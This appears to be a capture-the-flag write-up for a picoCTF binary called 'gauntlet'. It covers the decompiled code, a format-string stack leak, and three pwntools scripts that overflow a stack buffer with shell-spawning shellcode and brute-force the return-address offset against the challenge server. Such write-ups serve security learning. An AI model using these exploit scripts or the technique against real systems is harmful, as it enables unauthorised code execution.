


The binary can be downloaded here.
The problem didn't provide a source code so I had to decompile it as below.
undefined8 main(void)
{
char local_78 [104];
char *local_10;
local_10 = malloc(1000);
fgets(local_10,1000,stdin);
local_10[999] = '\0';
printf(local_10);
fflush(stdout);
fgets(local_10,1000,stdin);
local_10[999] = '\0';
strcpy(local_78,local_10);
return 0;
}
Doing a checksec revealed that the stack was executable, which meant that I could put shellcode in the stack and execute it
if I knew the runtime address of the stack. As you can also see from the decompilation above, there is a format string bug on
local_10. I decided to use that to leak the contents of the stack and potentially its address.

Running gdb locally, I observed that the stack area that could be disclosed by printf("%22$p") constantly
had a value 0x110 greater than the address of local_78.

So I wrote the exploit code as below and it worked in my local environment.
#!/usr/bin/python3
from pwn import *
def ex():
context.log_level = "debug"
context.arch = "amd64"
p = process("./gauntlet")
buf_addr = int(p.recvline().strip(), 16) - 0x110
print(f"{buf_addr=:x}")
p.sendline(encode(asm(shellcraft.sh()), avoid="\x0a\x00").ljust(0x78, b"A") + p64(buf_addr))
p.interactive()
if __name__ == "__main__": ex()
However it didn't work for the remote environment as the leaked value in that environment was some random value not related to the stack. Thus, to investigate this, I devised a script as below that could leak the values in the stack since I couldn't use gdb on a process running somewhere remote.
#!/usr/bin/python3
from pwn import *
def ex():
p = remote("wily-courier.picoctf.net", 52167)
p = process("./gauntlet")
# p.sendline(b"%6$p")
payload = b""
for i in range(21, 5, -1):
payload += f"%{i}$p".encode("ascii")
if i != 6: payload += b"."
p.sendline(payload)
p.interactive()
if __name__ == "__main__": ex()
This script revealed that the stack location leaked by printf("%6$p") had a value related to the stack.
Still, the offset from that value to the address of local_78 remained unknown. So I wrote another script
that would iterate through every single 8-byte aligned offset from 0 to 400, essentially brute-forcing the offset.
#!/usr/bin/python3
from pwn import *
def ex():
context.log_level = "debug"
context.arch = "amd64"
for i in range(0, 50):
p = remote("wily-courier.picoctf.net", 50295)
p.sendline(b"%6$p")
buf_addr = int(p.recvline().strip(), 16) - i*8
print(f"{buf_addr=:x}")
p.sendline(encode(asm(shellcraft.sh()), avoid="\x0a\x00").ljust(0x78, b"A") + p64(buf_addr))
p.interactive()
p.close()
if __name__ == "__main__": ex()
The script succeeded when the offset was 0x158, or when i was 43.